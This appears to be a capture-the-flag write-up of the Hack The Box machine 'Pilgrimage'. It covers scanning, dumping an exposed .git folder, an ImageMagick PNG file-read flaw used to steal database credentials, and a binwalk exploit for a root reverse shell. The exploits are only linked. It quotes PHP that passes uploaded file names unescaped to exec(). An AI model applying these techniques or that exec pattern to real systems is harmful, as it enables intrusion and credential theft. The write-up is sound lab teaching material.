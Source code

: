 ```yaml
---
title: "Hack The Box - Pilgrimage [Easy]"
date: 2023-06-25T10:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


I started off with `rustscan`

```bash
$ rustscan -a 
Open 10.10.11.219:22
Open 10.10.11.219:80
```

Then I ran `ffuf` to brute force some directories.

```bash
$ ffuf -u http://10.10.11.219/FUZZ -w ~/tools/SecLists/Discovery/Web-Content/common.txt
```

That yielded the `.git` folders, I used `git-dumper` to dump the whole repository. Upon investigating the source code of the application, I've noticed a user called `emily`. I also discovered an executable `magick` and this fragmet of code:

```php
$newname = uniqid();
exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
unlink($upload->getFullPath());
```

The program seems to be invoking this binary to shrink the image that is being uploaded through the website, the program itself is `ImageMagick 7.1.0-49 beta` we discover that by invoking it with `-version`.

```bash
$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

This version is vulnerable to Arbitrary Remote Leak, https://www.metabaseq.com/imagemagick-zero-days/.

Furthermore, we notice some files of interest in the source code as well, such as the database file.

```php
$db = new PDO('sqlite:/var/db/pilgrimage');
```

# Exploiting

I've used this PoC to generate my payload: https://github.com/Sybil-Scan/imagemagick-lfi-poc 

I've crafted my malicious image to read the database file `/var/db/pilgrimage` and shrink it through the website, I've then downloaded the file and converted the bytes, opened it and after some digging I found the password for user `emiliy`. Then you can login with `ssh`.

# Getting root

I've used `linpeas.sh` to enumerate the system, and I've noticed a process running:

```bash
root         726  0.0  0.0   6816  3072 ?        Ss   15:00   0:00 /bin/bash /usr/sbin/malwarescan.sh
```

I checked the permissions of the script:

```bash
emily@pilgrimage:~$ ls -la /usr/sbin/malwarescan.sh
-rwxr--r-- 1 root root 474 Jun  1 19:14 /usr/sbin/malwarescan.sh
```

And then I saw the script itself:

```bash
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

This script seems to be invoking `binwalk`, I searched for some exploits and I found this one: https://www.exploit-db.com/exploits/51249 following the steps in the exploit, I've set up a listener and placed the malicious `png` crafted by the exploit in the `/var/www/pilgrimage.htb/shrunk/` directory.

```bash
emily@pilgrimage:/tmp/syl$ cp ./binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```

After a couple of seconds, my listener got a connection, which was with `root` privileges.

# Conclusions

I wanted to investigate a little further how the `magick` binary includes the file that it converts and this article explains it perfectly.

https://www.metabaseq.com/imagemagick-zero-days/

The exploit targets the `tEXt` chunk of the PNG file, and this chunk is being used for storing key-value metadata for the PNG file. The problem comes whenever you use the "profile" string into that metadata, if that is being used as "key" the "value" is being interpreted as a filename, that then the functions `FileToStringInfo` → `FileToBlob` will fetch from the system, and it will populate the "value" with the file's contents.

And to add some speculation on top of it, this almost feels like a backdoor ;).